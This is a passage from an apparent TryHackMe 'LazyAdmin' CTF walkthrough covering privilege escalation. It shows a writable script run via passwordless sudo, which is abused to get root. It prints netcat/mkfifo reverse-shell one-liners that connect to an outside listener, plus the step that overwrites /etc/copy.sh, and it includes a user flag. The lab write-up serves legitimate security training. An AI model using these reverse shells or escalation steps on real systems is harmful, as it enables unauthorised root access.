 User flag: `THM{63e5bce9271952aad1113b6f1ac28a07}`

## Privilege Escalation

Now we need to escalate our privilege, in order to obtain the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
~~~

As you can see, we can run a perl script named `backup.pl` located in `itguy`'s home directory using `perl` with sudo and no password. Let's see what the script does:

~~~
www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
~~~

It only has one line of code and it just runs a shell script (`/etc/copy.sh`) and we also have write access to it. Let's see what the script does:

~~~
www-data@THM-Chal:/home/itguy$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
~~~

It basicly is a bash reverse shell and it makes connection to the specified IP on port 5554. Since we have write access to `/etc/copy.sh`, we can replace the code with our own bash reverse shell and when we run `backup.pl` with sudo, it executes our reverse shell.

First, run the following command to replace the code with your reverse shell:

~~~
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR IP> 4242 >/tmp/f" > /etc/copy.sh
~~~

Now open a listener (`rlwrap nc -lvnp 4242`) and run the following command to execute the reverse shell:

~~~
$ sudo /usr/bin/perl /home/itguy/backup.pl
~~~

As you can see below, now we have a root shell:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/LazyAdmin/files]
└─$ rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.208.146] 42480
# id
uid=0(root) gid=0(root) groups=0(root)
~~~
